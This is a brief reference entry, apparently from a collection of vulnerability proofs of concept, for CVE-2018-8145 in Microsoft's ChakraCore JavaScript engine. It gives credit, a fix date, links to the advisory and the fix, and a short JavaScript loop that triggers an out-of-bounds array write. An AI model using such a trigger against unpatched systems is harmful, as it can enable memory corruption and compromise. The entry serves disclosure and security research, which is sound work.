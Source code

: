 # CVE-2018-8145

- Fix: July 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let arr = new Uint32Array(1000);
for (let i = 0; i < 0x1000000; i++) {
    for (let j = 0; j < 1; j++) {
        i--;
        i++;
    }

    arr[i] = 0x1234;
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8145)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1563)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/9b270c55bfea2fbefc9482d3414c4b4b395cad10)
